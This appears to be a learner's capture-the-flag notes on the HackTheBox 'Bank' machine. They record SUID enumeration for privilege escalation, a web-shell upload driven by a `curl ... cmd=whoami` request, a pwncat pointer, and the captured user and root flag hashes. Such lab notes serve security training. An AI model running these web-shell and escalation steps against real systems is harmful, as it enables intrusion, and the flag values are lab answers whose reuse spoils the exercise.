 /home/chris/user.txt : b2581ed8edc790fcf0b7fda6d5ac9cd1

***
***

**PRIV ESC**

`sudo -l` - no results

**SUID**
```
find / -perm -u=s -type f 2>/dev/null
```
![[Pasted image 20240715200522.png]]

We find a vulnerable binary, so i ran it!
![[Pasted image 20240715200557.png]]

![[Pasted image 20240715200908.png]]

 root.txt : 1d647da565ce44f8b49cfa3c4a5ea557


***

**ALTERNATIVE - PWN CAT**
https://github.com/calebstewart/pwncat

We only needed the `.htb` extension after all so there is no need for the actual png numbers

Upload malicious php
![[Pasted image 20240715202827.png]]

```
curl http://bank.htb/uploads/bankz.htb?cmd --data-urlencode 'cmd=whoami'
```
![[Pasted image 20240715202853.png]]

![[Pasted image 20240715203819.png]]

![[Pasted image 20240715204214.png]]

![[Pasted image 20240715205038.png]]

![[Pasted image 20240715205050.png]]

RESEARCH how to use PWNCAT - not working as expected

**TBD** 7/15/2024
***
***

**TASK 11**
```
There's an alternative path from www-data to root on Bank. What is the full path of the critical Linux system file that is world-writable that shouldn't be?
```
